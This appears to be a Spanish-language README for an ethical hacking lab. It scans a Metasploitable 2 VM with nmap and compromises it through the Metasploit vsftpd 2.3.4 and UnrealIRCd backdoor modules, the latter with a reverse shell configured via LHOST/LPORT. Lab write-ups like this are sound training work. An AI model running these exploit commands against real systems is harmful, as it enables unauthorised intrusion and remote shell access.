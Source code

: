 # LAB HACK ET 1 – Laboratorio de Hacking Ético con Kali y Metasploitable 2

## Descripción
Este laboratorio demuestra el uso de herramientas como `nmap` y `Metasploit` para realizar pruebas de penetración en un entorno controlado usando:

- Kali Linux como máquina atacante
- Metasploitable 2 como máquina víctima

## Herramientas
- Kali Linux 2025.2
- Metasploitable 2
- VMware Workstation
- nmap
- Metasploit Framework (msfconsole)

## Fases

### Fase 1 – Reconocimiento con nmap
```bash
nmap -sS -sV -O 192.168.20.129 -oN scan1.txt
```

### Fase 2 – Explotación

### Exploit 1: vsftpd 2.3.4 Backdoor

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.20.129
run
```
### Exploit 2: UnrealIRCd Backdoor
```bash
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 192.168.20.129
set LHOST 192.168.20.128
set LPORT 4444
run
```
## Evidencias

Las evidencias se encuentran en el archivo PDF LAB_HACK_ET_1.pdf y en las imagenes de evidencias.

## Conclusiones

    Se logró comprometer completamente la máquina víctima.

    Se aplicaron técnicas básicas de pentesting con herramientas estándar.

    Buen ejemplo de práctica en laboratorio cerrado y ético.
